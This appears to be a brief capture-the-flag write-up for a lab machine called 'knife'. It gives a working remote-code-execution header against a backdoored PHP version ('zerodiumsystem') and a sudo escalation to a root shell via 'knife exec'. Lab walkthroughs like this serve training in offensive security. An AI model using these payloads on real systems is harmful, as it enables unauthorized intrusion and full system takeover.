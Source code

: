 knife
---

## Steps

1. vulnerable php version

if we look at the headers, we see that it's powered by a vulnerable php version that has a backdoor installed. 

Achieve RCE using `User-Agentt:zerodiumsystem("cmd");`

You can get the user flag there

## Root Flag

1. sudo -l

`knife` can be run as sudo

`sudo knife exec -E 'exec "/bin/sh"'` to get root shell
